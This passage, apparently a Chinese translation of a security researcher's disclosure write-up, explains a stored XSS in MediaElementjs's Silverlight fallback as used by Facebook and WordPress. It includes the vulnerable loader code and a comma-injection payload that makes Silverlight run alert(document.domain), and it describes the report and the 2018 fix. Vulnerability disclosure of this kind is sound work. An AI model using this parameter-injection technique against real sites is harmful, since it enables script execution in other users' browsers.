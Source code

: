 在Facebook（silverlightmediaelement.xap）上托管的silverlight文件是这样加载的：

```
params = ["file=" + ogVideoUrl, "id=playerID"];silverlightDiv.innerHTML ='&lt;object data="data:application/x-silverlight-2," type="application/x-silverlight-2"&gt;&lt;param name="initParams" value="' + params.join(',').split('"').join('&amp;quot;') + '" /&gt;&lt;/object&gt;';
```

silverlightmediaelement.xap然后会发送日志信息到Facebook的JavaScript（这点有点像Flash），但这次它不包含ogVideoUrl，但只有player ID，这是另一个在initParams中发送由Facebook定义的参数。Silverlight会调用javascript函数**[id] _init（）** ，其中[id]是“playerID”。

在Silverlight中，参数不是由 URLs或Flash中的**＆**所分隔，而是通过**逗号(,)**

如果ogVideoUrl 包含一个**逗号( ，)**那么在这个**逗号**后面的每一个东西都将被silverlight视为另一个参数，这意味着使用有效载荷

```
https://opnsec.com/#,id=alert(document.domain)&amp;
```

然后silverlight像这样加载：

```
silverlightDiv.innerHTML ='&lt;object data="data:application/x-silverlight-2," type="application/x-silverlight-2"&gt;&lt;param name="initParams" value="file=https://opnsec.com/#,id=alert(document.domain)&amp;,id=playerID" /&gt;&lt;/object&gt;';
```

Silverlight将仅考虑id的第一次出现，并将其值设置为

```
alert(document.domain)&amp;
```

然后Silverlight将调用以下javascript：

```
alert(document.domain)&amp;_init()
```

这意味着再次 XSS！

我在同一天进行了提交，Neal回复说他们将删除所有MediaElement组件，并用一种处理外部视频的新方式替换它！



## 那么WordPress呢？

所有这些存在问题的代码都不是由Facebook开发的，他们使用了可以将视频嵌入到网页中 [MediaElementjs](http://www.mediaelementjs.com/) 库，它是一个流行的（现在依旧是，尤其是因为它们具有支持旧版浏览器的Flash后备功能）开源模块。特别是，WordPress在处理[短代码](https://codex.wordpress.org/Shortcode_API)时默认使用这个模块。这些漏洞也存在于WordPress中，并能够在WordPress评论或作者写的WordPress文章中写入存储XSS（在WordPress中，作者角色不允许执行JavaScript）。

我向WordPress报告了漏洞，几个月之前我已经报告过[其他漏洞](https://opnsec.com/2017/10/flashme-wordpress-vulnerability-disclosure-cve-2016-9263/) 。他们向MediaElementjs团队通报了这一消息，并告诉我他们正在进行修复。在2018年2月，他们终于发布了与MediaElementjs相关的所有XSS的修复程序。



## 结论

我学到了很多东西，并且发现这些漏洞非常有趣。我希望你也喜欢它！

